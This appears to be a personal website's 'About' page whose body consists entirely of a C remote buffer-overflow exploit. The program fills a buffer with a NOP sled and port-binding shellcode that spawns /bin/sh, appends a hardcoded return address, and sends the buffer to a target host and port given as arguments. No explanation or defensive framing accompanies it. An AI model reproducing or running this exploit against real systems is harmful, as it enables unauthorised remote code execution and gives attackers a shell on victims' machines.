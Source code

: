 ```yaml
---
layout: page
permalink: /about/
title: About Neil
tagline: Ronneil, Neil
tags: [about, hacking]
modified: 9-9-2013
comments: true
image:
  feature: texture-feature-02.jpg
---
```


{% highlight c %}
#include <stdio.h>
#include <netdb.h>
#include <netinet/in.h>

//Portbinding Shellcode

char shellcode[] =
"\x89\xe5\x31\xd2\xb2\x66\x89\xd0\x31\xc9\x89\xcb\x43\x89\x5d\xf8"
"\x43\x89\x5d\xf4\x4b\x89\x4d\xfc\x8d\x4d\xf4\xcd\x80\x31\xc9\x89"
"\x45\xf4\x43\x66\x89\x5d\xec\x66\xc7\x45\xee\x0f\x27\x89\x4d\xf0"
"\x8d\x45\xec\x89\x45\xf8\xc6\x45\xfc\x10\x89\xd0\x8d\x4d\xf4\xcd"
"\x80\x89\xd0\x43\x43\xcd\x80\x89\xd0\x43\xcd\x80\x89\xc3\x31\xc9"
"\xb2\x3f\x89\xd0\xcd\x80\x89\xd0\x41\xcd\x80\xeb\x18\x5e\x89\x75"
"\x08\x31\xc0\x88\x46\x07\x89\x45\x0c\xb0\x0b\x89\xf3\x8d\x4d\x08"
"\x8d\x55\x0c\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh";

//standard offset (probably must be modified)
#define RET 0xbffff5ec

int main(int argc, char *argv[]) {
    char buffer[1064];
    int s, i, size;
    struct sockaddr_in remote;
    struct hostent *host;

    if (argc != 3) {
        printf("Usage: %s target-ip port\n", argv[0]);
        return -1;
    }

    // filling buffer with NOPs
    memset(buffer, 0x90, 1064);

    //copying shellcode into buffer
    memcpy(buffer+1001-sizeof(shellcode) , shellcode, sizeof(shellcode));

    // the previous statement causes a unintential Nullbyte at buffer[1000]
    buffer[1000] = 0x90;

    // Copying the return address multiple times at the end of the buffer...

    for(i=1022; i < 1059; i+=4) {
        * ((int *) &buffer[i]) = RET;
    }

    buffer[1063] = 0x0;

    //getting hostname

    host=gethostbyname(argv[1]);

    if (host==NULL) {
        fprintf(stderr, "Unknown Host %s\n",argv[1]);
        return -1;
    }

    // creating socket...
    s = socket(AF_INET, SOCK_STREAM, 0);

    if (s < 0) {
        fprintf(stderr, "Error: Socket\n");
        return -1;
    }

    //state Protocolfamily , then converting the hostname or IP address, and getting port number
    remote.sin_family = AF_INET;
    remote.sin_addr = *((struct in_addr *)host->h_addr);
    remote.sin_port = htons(atoi(argv[2]));

    // connecting with destination host

    if (connect(s, (struct sockaddr *)&remote, sizeof(remote))==-1) {
        close(s);
        fprintf(stderr, "Error: connect\n");
        return -1;
    }

    //sending exploit string
    size = send(s, buffer, sizeof(buffer), 0);
    if (size==-1) {
        close(s);
        fprintf(stderr, "sending data failed\n");
        return -1;
    }

    // closing socket

    close(s);

}
{% endhighlight %}